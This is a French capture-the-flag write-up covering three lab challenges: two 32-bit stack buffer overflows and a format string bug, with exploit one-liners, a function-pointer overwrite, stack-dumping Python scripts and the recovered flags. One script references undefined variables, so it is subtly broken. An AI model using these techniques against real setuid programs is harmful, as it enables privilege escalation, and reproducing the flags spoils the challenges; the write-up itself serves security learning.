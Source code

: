 # Challenge App - Système

## 1. ELF x86 - Stack buffer overflow basic 1

Le but du premier challenge était de récupérer le flag contenu dans le fichier `.passwd`. 

Le problème ici est que notre utilisateur n'a pas les droits pour ouvrir ce fichier car il est en `read-only` pour l'utilisateur `app-systeme-ch13-cracked` et non pas pour `app-systeme-ch13`.

```shell
app-systeme-ch13@challenge02:~$ ls -la
total 24
dr-xr-x---  2 app-systeme-ch13-cracked app-systeme-ch13         4096 Feb 22  2017 .
drwxr-xr-x 18 root                     root                     4096 Mar 17 09:32 ..
-rwsr-x---  1 app-systeme-ch13-cracked app-systeme-ch13         7304 Feb 22  2017 ch13
-r--r-----  1 app-systeme-ch13-cracked app-systeme-ch13          528 Feb 22  2017 ch13.c
-r--------  1 app-systeme-ch13-cracked app-systeme-ch13-cracked   17 Mar 18  2015 .passwd
```

Le code du programme nous donne néanmoins un indice, en effet, il est possible d'ouvrir le shell `dash` afin de lire ce fichier, comme l'indique le code:

```c
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     system("/bin/dash");
     printf("Shell closed! Bye.\n");
   }
```

Pour cela, il a fallu faire un dépassement de pile afin de modifier la variable `check`, initialisée à la valeur `0x04030201 ` pour lui donner la valeur `0xdeadbeef ` et permettre l'ouverture du shell.

La stack actuelle possède une taille fixe de 40 octets et le flag `0xdeadbeef` fait une taille de 4 octets, il est donc nécessaire de passer 11 fois le flag `0xdeadbeef` afin d'avoir un dépassement de mémoire. De plus, notre machine étant en 32bits, elle est donc little-endian, c'est à dire que les bits sont inversés.

On peut faire cela en utilisant une commande `python` :

```shell
app-systeme-ch13@challenge02:~$ python -c 'print("\xef\xbe\xad\xde" * 11)' | ./ch13

[buf]: ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```

Néanmoins, il y a un problème, le shell se quitte immédiatement et il est impossible de récupérer le contenu du fichier `.passwd`. Pour cela, on concatène la commande `python` avec la commande `cat` qui va bloquer l'entrée et la sortie `stdin ` pour avoir accès au shell.

```shell
app-systeme-ch13@challenge02:~$ (python -c 'print("\xef\xbe\xad\xde" * 11)'; cat) | ./ch13

[buf]: ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
cat .passwd
1w4ntm0r3pr0np1s
```

Le flag est donc **1w4ntm0r3pr0np1s**.

## 2. ELF x86 - Stack buffer overflow basic 2

Comme pour le challenge précédant la taille du buffer est different du buffer cible du fget, nous pouvons ainsi contrôler le pointeur "func".
Mais par rapport au challenge précédent, on n'a pas accès aux adresses mémoire. Ainsi nous pouvons utiliser radare2 pour pouvoir trouver l'adresse correspondant à la fonction "shell".

```shell
$ app-systeme-ch15@challenge02:~$ radare2 ./ch15
[...]
0x08048464 20 sym.shell
[...]
```

Nous allons donc commencer à remplir ce tableau de 128 octets pour pouvoir accéder au pointeur puis remplacer "func" par l'addresse de "shell":

```shell
app-systeme-ch15@challenge02:~$ (python -c "import struct; print(\"\xef\xbe\xad\xde\" * 32 + struct.pack(\"<I\", 0x08048464))"; cat) | ./ch15
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```

Le flag est donc **B33r1sSoG0oD4y0urBr4iN**.

# ELF x86 - Format string bug basic 1

Tout d'abord on peut observer que le fichier est charge puis lut par le fget dans un buffer de taille 32. et nous pouvons observer que l'argument 1 est place directement dans le printf ce qui veut dire que l'on peut injecter des flags afin de lire la stack.

```python
import subprocess

cmd = 'python -c \'print("%08X " * 32)\' | xargs -d "$" /challenge/app-systeme/ch5/ch5'
cp = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE)
out = cp.communicate()[0].strip().split(' ')

print(out)
```

A partir de cela nous allons lire la memoire presente.

```python
import re
import struct
import subprocess

cmd = 'python -c \'print("%08X " * 32)\' | xargs -d "$" /challenge/app-systeme/ch5/ch5'
cp = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE)
out = cp.communicate()[0].strip().split(' ')

conv = [int(x, 16) for x in out]
data = [struct.pack("<I", x) for x in conv]
datas = reg.findall(dump)

print(datas)
```

Lors de l'exécution nous pouvons observer un string particulier suivi d'un "\n".

```shell
$ app-systeme-ch5@challenge02:~$ python /tmp/hackerlanase.py
[
  [...],
  'Dpa9', 'd6)(', 'Epam', 'd\n\x00\x00',
  [...]
]
```

Ainsi le flag est **Dpa9d6)(Epam**.
